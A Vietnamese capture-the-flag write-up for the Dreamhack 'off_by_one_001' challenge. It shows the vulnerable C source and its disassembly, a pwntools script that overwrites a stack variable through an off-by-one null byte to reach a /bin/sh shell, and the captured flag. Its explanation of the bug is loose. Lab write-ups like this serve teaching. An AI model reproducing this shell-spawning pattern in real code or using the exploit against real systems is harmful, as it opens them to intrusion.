

**1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_str(char *ptr, int size)
{
    int len;
    len = read(0, ptr, size);
    printf("%d", len);
    ptr[len] = '\0';
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char name[20];
    int age = 1;

    initialize();

    printf("Name: ");
    read_str(name, 20);

    printf("Are you baby?");

    if (age == 0)
    {
        get_shell();
    }
    else
    {
        printf("Ok, chance: \n");
        read(0, name, 20);
    }

    return 0;
}

```

- Hàm `read_str()` được sử dụng để đọc chuỗi từ người dùng. Hàm này sẽ đọc tối đa size ký tự từ đầu vào và lưu trữ chúng trong ptr. Sau đó, hàm in ra độ dài của chuỗi đã đọc và thêm ký tự null vào cuối chuỗi. Hàm này không kiểm tra độ dài tối đa của chuỗi đầu vào và cho phép người dùng nhập vào một chuỗi dài hơn kích thước của mảng name (20 ký tự) -> Có lỗi `bof`
- Trong hàm `main()`, chương trình yêu cầu người dùng nhập tên của họ bằng lời nhắc "Name: " và gọi hàm `read_str()` để đọc chuỗi đầu vào. Sau đó, chương trình yêu cầu người dùng trả lời câu hỏi "Are you baby?" Nếu biến age = 0, chương trình sẽ gọi hàm `get_shell()` để thực thi shell của hệ thống. Nếu không, chương trình sẽ yêu cầu người dùng nhập một chuỗi bất kỳ và kết thúc chương trình.

**2. Ý tưởng**

Nhập tràn biến `name` đến `age` để `age` nhận 0 -> gọi được hàm `get_shell()`

**3. Khai thác**

```
   0x08048675 <+33>:    lea    eax,[ebp-0x18]
   0x08048678 <+36>:    push   eax
   0x08048679 <+37>:    call   0x8048609 <read_str>
```

```
   0x0804868e <+58>:    cmp    DWORD PTR [ebp-0x4],0x0
```

Ta thấy biến `name` cách ebp 0x18 byte còn `age` cách ebp 0x4 byte nên `name` cách `age` 0x18 - 0x4 byte.

Ta có script như sau:

```
from pwn import *

exe = ELF('off_by_one_001', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 13664)

payload = b'a'*(0x18 - 0x4)
r.sendafter(b'Name: ', payload)
r.interactive()
```

**4. Lấy flag**



`Flag: DH{343bab3ef81db6f26ee5f1362942cd79}`